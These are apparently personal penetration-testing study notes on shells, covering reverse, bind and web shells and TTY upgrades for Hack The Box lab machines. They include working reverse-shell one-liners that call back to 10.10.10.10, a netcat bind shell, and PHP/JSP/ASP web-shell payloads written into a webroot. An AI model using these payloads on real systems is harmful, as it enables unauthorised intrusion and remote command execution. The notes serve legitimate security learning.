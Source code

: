 # Shells

A #Shell is the #CLI interface that we use to execute commands on a system. Common shells include #BASH and #PowerShell, although there are many, many more. If we can open the shell of a system we are attacking, we won't have to continuously execute the same vulnerability for each action we take on the target device.

### Shell Types

#### Reverse Shell

Reverse Shells are the most common type and is the preferred method for infiltrating a compromised host. We can use a tool like #Netcat to perform port listening, which will enable us to execute a command via the reverse shell of the remote machine. We can listen to the ports for BASH and PowerShell to establish a reverse shell.

Reverse Shells are convenient and useful, however they are notably fragile and any stoppage or interruptions in connection result in us having to repeat the process to gain entry which consumes a lot of time and can raise alarm on the target machine.
##### Netcat

Netcat is a tool for listening to communications happening on ports. This listener will monitor the port for any pending connection, which allows us to execute a remote shell command to connect the target machine to our own.

We must submit our own IP to the netcat tool in order to have the reverse shell information returned to us.

We will use a few of the following netcat flags in our command - these are explained below:

- -l sets netcat to listening mode, which will monitor the port until a connection is initiated.
- -v indicates that we want a verbose response when the connection is established.
- -n is used to disable #DNS resolution and connect directly to the assigned #IP addresses.
- -p 1234 indicates that we will monitor the port 1234

The following command can then be used to begin port monitoring with netcat:

> nc -lvnp 1234

We must submit our own IP to the netcat tools in order to have the reverse shell forwarded to our client. We can list information related to our IP via the following command:

> ip a

In the case of this example, we will use the HTB #VPN  connection 'tun0' to reflect the listened port back to our machine. This is because the machines we are attacking are only available on the local HTB network and do not have direct access to the internet - we are connecting directly to the local machine via eth0 ethernet connections.

We will then need to initiate a reverse shell command, although these will be different depending on the #OS and version being used on the target. [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md "This is a list of shell commands for a range of hosts.")is a great source for various commands used to connect to remote hosts.

For Linux systems using #BASH, we can use the following command:

> bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'

> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f

For #Windows systems using #PowerShell, we can use the following command:

** see resource - VERY long command **

Once these commands are issued, you will be able to use the command we started listening with to observe our received connection:

> nc -lvnp 1234

This should allow you to execute commands on the remote machine and see the output on our own machine.

#### Bind Shell

A Bind Shell means that we are connecting to the target's listening ports, instead of reflecting the listening port back to our client. In these cases we are binding the hosts shell to the to the listening port on the host. We then connect to that port with #Netcat to execute commands on the host shell.

Bind shell is a more stable method of attack that will allow us to easily reconnect if the connection is dropped, unlike reverse shells.

If we want to exploit a #Linux system using #BASH, we use the following command:

> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f

For python or PowerShell execution techniques, please see the source material as these are very long.

Once we use these commands to execute bind shell, we can listen to the port via netcat to gain access to this shell:

> nc 10.10.10.1 1234

This will open up the shell so we can execute commands.

#### TTY Updating

#TTY prints the name of a terminal you are interacting with.

When we are accessing a remote shell using the methods above, we will have limited function within the #CLI. We will not be able to navigate the cursor, we will only be able to enter characters and delete them. In order to gain more granular control over the shell we will need to map our own TTY to the TTY on the target system.

We can use python/stty to upgrade our shell to a fully functioning TTY:

> python -c 'import pty; pty.spawn("/bin/bash")'

We enter this command to upgrade the target hosts TTY - we can then minimize our target's shell and observe our client terminal with Ctrl - Z before submitting additional commands. It should look something like the following:

>  ^\Z
> stty raw -echo
> fg

The fg command will return our target shell to the foreground of our interface. Pressing Enter will then bring us back to the target shell. Alternatively we can submit 'reset' to return to the target shell.

This should enable a shell with full functions, however the size of the terminal presented might not be desirable. We can identify a few variables that will allow us to resize windows on the target system to our desired size.

Open a new terminal and submit the following commands to determine these variables:

> echo \$TERM

> stty size

These will display the TERM variable and the second command displays the amount of rows and columns in the related system.

Now return to the netcat shell in the original terminal we opened. We can correct our variables so that our client settings match the target hosts' settings:

> export TERM=xterm-256color

> stty rows 67 columns 318

If all of the above goes correctly, you should be able to interact with the target host as if you have a true #SSH connection.

#### Web Shell

A Web Shell uses a browser to send commands via #HTTP request parameters like #GET and #POST via languages like #PHP or #ASPX to execute web scripts. Web shells are useful as they bypass the #firewall, do not use ports other than port 80 or port 443, and persist even after a target host is rebooted. These shells are limited in their capabilities compared to reverse and bind shells however. We also have to continuously request new URL submissions to continue using web shells, although #Python can be used to automate the generation of these new URLs.

You must write a web shell that can submit commands through GET requests, execute those commands, and return the output to our client. 

Some common and useful web shell scripts include:

For PHP:

> \<?php system(\$\_REQUEST\["cmd"]); ?>

For JSP:

> \<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>

For ASP:

> <% eval request("cmd") %>

The above scripts must be executed through the web browser and placed within the target host's web directory. It is likely that this must be done through an existing vulnerability. After placing it in the web directory, we must upload the script and access this uploaded file to begin execution of scripts.

A #Webroot is the web directory. Once our file is in the Webroot and we have identified the location of the Webroot, we can now access it over the internet.

Common Servers and their associated Webroots include:

| Server | Webroot                |
| ------ | ---------------------- |
| Apache | /var/www/html/         |
| Nginx  | /usr/local/nginx/html/ |
| IIS    | c:\\inetpub\\wwwroot\\ |
| XAMPP  | C:\\xampp\\htdocs\\                       |

If we search for these directories on a target host, we can determine which Webroot is being used and echo the location to send our web shell script to the desired directory:

> echo '\<?php system(\$\_REQUEST\["cmd"]); ?>' > /var/www/html/shell.php

This will write our web shell script to the directory, which can now be accessed via #cURL or by visiting the page index of /shell.php. We add /shell.php?cmd=id to the end of the URL we use to connect to the remote host. 

This #URL input would look something like the following:

> \http://SERVER_IP:PORT/shell.php?cmd=id

The cURL input would be:

> curl \http://SERVER_IP:PORT/shell.php?cmd=id

